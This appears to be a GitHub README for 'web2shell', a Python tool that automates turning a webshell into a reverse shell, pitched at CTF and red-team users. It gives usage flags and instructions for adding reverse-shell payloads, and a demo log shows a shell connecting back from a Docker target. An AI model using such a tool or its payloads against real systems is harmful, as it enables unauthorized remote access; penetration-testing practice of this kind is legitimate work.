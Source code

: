 # web2shell

A Python program used to automate converting webshells into reverse shells. If you regularly do CTF, HTB, or red teaming you've probably spent a good chunk of time testing payloads to convert a webshell into a reverse shell. This tool aims to simplify this process.

Credit for the reverse shells goes to [PayloadAllTheThings.](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Usage

```
usage: web2shell [-h] [-i INTERFACE] [--force] [--ip IP] [--port PORT] [--nc NC] [--verbose] url

Automate converting webshells into reverse shells.

positional arguments:
  url                   webshell URL, replace the provided command with "SHELL". ex: https://example.com/shell.php?cmd=SHELL

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        the interface to use when listening for a remote shell. Default is localhost.
  --force               force command execution even if initial check is invalid
  --ip IP               IP address of your own listener (skips listener setup if both IP and port are set)
  --port PORT           port of your own listener
  --nc NC               path to local nc binary
  --verbose             verbose command output
```

Providing an IP and port will cause the program to skip the listener setup and assume you already have netcat/a comparable listener running at that address.

Please note: this program currently is only intended to be used on and against Linux machines.

## Requirements

Install the required python modules with pip (`pip3 install -r requirements.txt`.) You will need a local copy of `nc`. The program will attempt to find it automatically. If it can't (it might not be in your `$PATH`), please specify the path to the binary with the `--nc` flag.

## Adding New Payloads

The included payloads have all been tested on a simple webshell and work. If you'd like to add more, please feel free.

- Edit the `data/payloads.py` file.
- Add a new object to the `payloads` dict. The `key` should be the name of the bin, and the value should be a `list` object of payloads.
- Replace all instances of the reverse `IP` with `IPHERE`, the port with `PORTHERE`, and the binary name with `PATHHERE`.

## Example

Example execution on local Docker image (see `demo/README.md`)

```
[evan@ejedev web2shell]$ python3 web2shell.py -i docker0 http://127.0.0.1:8080/cmd.php?cmd=SHELL

               o                  o           o  o
               O     .oOOo.       O           O  O
               O          O       o           o  o
               o          o       O           O  O
'o     O .oOo. OoOo.     O' .oOo  OoOo. .oOo. o  o
 O  o  o OooO' O   o    O   `Ooo. o   o OooO' O  O
 o  O  O O     o   O  .O        O o   O O     o  o
 `Oo'oO' `OoO' `OoO' oOoOoO `OoO' O   o `OoO' Oo Oo
---------------------------------------------------
                      @ejedev

Verifying commands can be executed...
Available interfaces...
[-] lo
[-] enp4s0
[-] docker0
[-] br-7436527ee366
[-] br-aa3534e13396
[-] br-c7551daa06d2
[-] veth148b75b
docker0 selected. Address to use is 172.17.0.1
Testing ports...
[x] 1025 already in use or unavailable.
[-] 1026 available!
Finding local nc binary...
nc target at /usr/bin/nc
Final connection string will be 172.17.0.1:1026...
Finding bins...
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1026
Ncat: Listening on 0.0.0.0:1026
[-] perl found at /usr/bin/perl
[-] perl found at /usr/bin/perl5.32-x86_64-linux-gnu
[-] php found at /usr/local/bin/php
[-] python found at /usr/bin/python3.9
[-] ruby found at /usr/bin/ruby2.7
[-] ruby found at /usr/bin/ruby
[-] go found at /usr/bin/go
Executing reverse shell...
Bins to test: 7
[!] Attempting perl payloads for path /usr/bin/perl
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:38870.
$
```
